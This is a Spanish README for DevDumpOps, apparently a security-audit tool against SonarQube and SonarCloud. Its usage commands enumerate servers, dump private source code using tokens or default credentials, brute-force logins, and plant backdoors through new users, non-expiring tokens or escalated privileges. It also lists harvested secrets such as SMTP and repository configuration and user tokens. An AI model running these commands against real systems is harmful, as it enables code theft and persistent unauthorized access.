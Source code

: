 # DevDumpOps
🛠️ En construcción 🛠️

Herramienta Open Source para el Dump de información de plataformas DevOps, enfocado al abuso de Tokens, APIS y cuentas de servicio expuestas que nos permitan la consulta a estas herramientas de desarrollo; desde una perspectiva de seguridad es muy útil y conveniente poder reconstruir el código fuente, extraer archivos de configuración, datos de despliegue y la mayor información posible de estas plataformas, para posteriores procesos de intrusión. 

### Instalación 🔧
```
git clone https://github.com/CSL-LABS/DevDumpOps.git
cd DevDumpOps
```

### Uso
```
python DevDumpOps.py --help
```

### Target's
- **Sonarqube**
- otros ~~en construccion~~

## Actions
### Enumeration 📋
Realiza una enumeración de la configuración del servidor SonarQube, así como de los permisos, organizaciones, proyectos y componentes de código visisible con o sin credenciales. 
### Dump
Se descarga y almacena la totalidad de los componentes de código visibles: 
- all
    - Todo el código
- member 
    - El código enlazado a las credenciales (util para SonarCloud.io)
### Bruteforce
Realiza un ataque de fuerza bruta sobre el sistema de Login, utilizando los siguiente parametros: 
- Usuario a atacar.
- Ruta del diccionario.
- Cantidad de threads a utilizar.

### Backdoor
Selecciona uno de los siguientes modos de persistencia, es necesario contar con privilegios previos: 
1. Crear nuevo usuario. 
2. Generar un nuevo token.
3. Elevar privilegios a un usuario.
4. Cambiar la contraseña de un usuario. 

## Ejemplos de uso
- **Enumeración sin utilizar credenciales**: 
```
python DevDumpOps.py --sonarqube [target]
```

- **Descarga de código de los proyectos publicos**: 
```
python DevDumpOps.py --sonarqube --dump all [target]
```
![SonarCloud-token](images/02_sonarLocal_download_files.PNG)

- **Enumeración utilizando credenciales**:
```
python DevDumpOps.py --sonarqube -u admin -p admin [target]
```
![SonarCloud-token](images/02_sonarLocal_user.PNG)

- **Descarga de código de los proyectos privados**:
```
python DevDumpOps.py --sonarqube -u admin -p admin --dump member [target]
```

- **Descarga de codigo en proyectos SonarCloud**: 
```
python DevDumpOps.py --sonarqube -t [token] --dump member sonarcloud.io
```
![SonarCloud-token](images/01_sonarcloud_token.PNG)

- **Ataque de Fuerza Bruta**:
```
python DevDumpOps.py --sonarqube --bruteforce [target]
```
Usuario: administrator

![SonarQube-BruteForce](images/03_bruteforce_administrator.PNG)

- **Generar Persistencia: Genera un nuevo token**
Es importante recordar que los token's no caducan, por tanto así cambien la contraseña del usuario el token continuará siendo valido. 
```
python DevDumpOps.py --sonarqube --backdoor -u administrator -p P4$$w0rd [target]
```
Opcion: 2

![SonarQube-BruteForce](images/04_backdoor_gen_token.PNG)

## Resultados
Los resultados son almacenados por defecto en la carpeta /results/ o en la que se defina bajo la opcion --output, y se encuentra la siguiente informacion: 
- Configuracion SMTP, GITHUB, GITLAB Y SVN.
- Usuarios identificados.
- Proyectos visibles.
- Codigo descargado.
- Componentes de código.
- WebHooks extraidos.
- Tokens de Usuario.

## Referencias
- https://csl.com.co/sonarqube-auditando-al-auditor-parte-i/
- https://csl.com.co/sonarqube-auditando-al-auditor-parte-ii/ 